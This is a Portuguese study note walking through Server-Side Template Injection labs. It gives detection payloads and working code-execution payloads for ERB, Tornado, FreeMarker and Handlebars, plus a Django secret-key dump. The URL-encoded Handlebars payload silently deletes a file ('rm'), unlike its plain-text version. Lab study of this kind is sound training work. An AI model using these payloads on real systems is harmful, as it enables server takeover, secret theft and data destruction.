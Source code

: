 # SSTI - Server Side Template Injection

Payloads genéricos:
```
${{<%[%'"}}%\

fuzzer${{<%[%'"}}%\<>
```

Payloads para identificar a engine:
```
{{7*7}}, ${7*7},<% = 7*7 %>, ${{7*7}}, #{7*7}, *{7*7}
```

Normalmente aparece na opção "View details", mas teste em qualquer lugar que reflita o valor na resposta.

![image](https://github.com/user-attachments/assets/c74addd5-8b61-4973-ae92-a8d9ac80f056)

<br>

## Laboratórios

**Basic Server-Side Template Injection**

Encontre o template com:
```
<%= 7 * 7 %>
```

Identifique é Ruby, então utilize:
```
<%= system("cat /home/carlos/secret") %>
```

<br>
<br>

**Basic Server-Side Template Injection (code context)**

Observe a requisição nas configurações de Preferred name.
```
blog-post-author-display=user.name
```

Tente o payload abaixo e verá o template ser renderizado nos comentários do blog.
```
blog-post-author-display=user.name}}{{7*7}}
```

Para conseguir RCE com o template Tornado:
```
{% import os %}{{os.system('whoami')}}
```

Versão adaptada:
```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('cat+/home/carlos/secret')}}
```

<br>
<br>

**Server-Side Template Injection Using Documentation**

Isso funciona:
```
${7*7}
#{7*7}
```

Para triggar um erro:
```
${7/0}
```

Desse jeito descobrimos o template FreeMarker, para conseguir RCE:
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat /home/carlos/secret")}
```

<br>
<br>

**Server-Side Template Injection in an Unknown Language with a Documented Exploit**

Para triggar um erro:
```
{{7*7}}
```

Descobrimos que o template é Handlebars NodeJS:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('cat /home/carlos/secret');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Encode em URL:
```
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

<br>
<br>

Server-Side Template Injection with Information Disclosure via User-Supplied Objects

Para triggar um error:
```
{{7*7}} ou ${{<%[%'"}}%\,
```

Descobrimos o framerwork Django e confirmamos com:
```
{% debug %}
```

Para dumpar a chave:
```
{{settings.SECRET_KEY}}
```
